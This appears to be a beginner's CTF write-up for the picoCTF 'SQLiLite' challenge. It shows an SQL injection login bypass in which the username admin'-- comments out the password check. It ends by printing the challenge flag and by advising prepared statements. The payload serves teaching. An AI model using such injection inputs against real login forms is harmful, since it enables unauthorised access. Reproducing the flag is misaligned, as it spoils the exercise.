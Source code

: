 ```yaml
---
layout: post
title: "SQLiLite"
date: 2025-09-04
categories: [PicoCTF, webexploitation]
tags: [picoctf, webexploitation, Medium]
---
```


## 🐱 Description  
Can you login to this website?  

**Hint:** The user you want to login as is `admin`.  

---

## 🚀 Step-by-Step Approach 

### 🔹 Step 1: Open the Website  
When you open the challenge, you’ll see a simple **login form**:  
- Username  
- Password  

Looks normal, right? Let’s poke around 👀  

---

### 🔹 Step 2: First Test  
Try this:  
```
Username: admin
Password: 1234
```

The site responds with something like:  
```
username: admin
password: 1234
SQL query: SELECT * FROM users WHERE name='admin' AND password='1234'
Login failed.
```

👉 Notice: It shows us the exact **SQL query** being run!  

---

### 🔹 Step 3: Understand the Query  
The query is:  
```sql
SELECT * FROM users WHERE name='admin' AND password='1234';
```

- It checks if there’s a row with `name = 'admin'` **AND** `password = '1234'`.  
- Since we don’t know the right password → **Login failed**.  

---

### 🔹 Step 4: Think Like a Hacker 🕵️  
What if we can **skip the password check**?  

In SQL:  
- `--` = comment.  
- Everything after `--` is ignored.  

So if we enter:  
```
Username: admin'--
Password: anything
```

The query becomes:  
```sql
SELECT * FROM users WHERE name='admin'--' AND password='anything';
```

👉 The password part is ignored.  
👉 Now the query is just:  
```sql
SELECT * FROM users WHERE name='admin';
```

💡 No password required!  

---

### 🔹 Step 5: Success 🎉  
Now the site says:  
```
Logged in! 
But can you see the flag, it is in plain sight.
```

---

### 🔹 Step 6: Where’s the Flag?  
The flag isn’t on the page directly. The hint says **in plain sight**.  

👉 Right-click → **View Page Source (Ctrl+U)**.  
👉 Inside the HTML code, you’ll find the flag hidden as a comment.  

---

## 🏁 Final Flag  
```
picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}
```

---

## 📚 Beginner Takeaways  
✅ **SQL Injection** = tricking a website into running unintended SQL.  
✅ `--` = comment, helps bypass parts of a query.  
✅ Always inspect the **page source** for hidden clues.  
✅ Real websites prevent this with **prepared statements** & **input sanitization**.  

---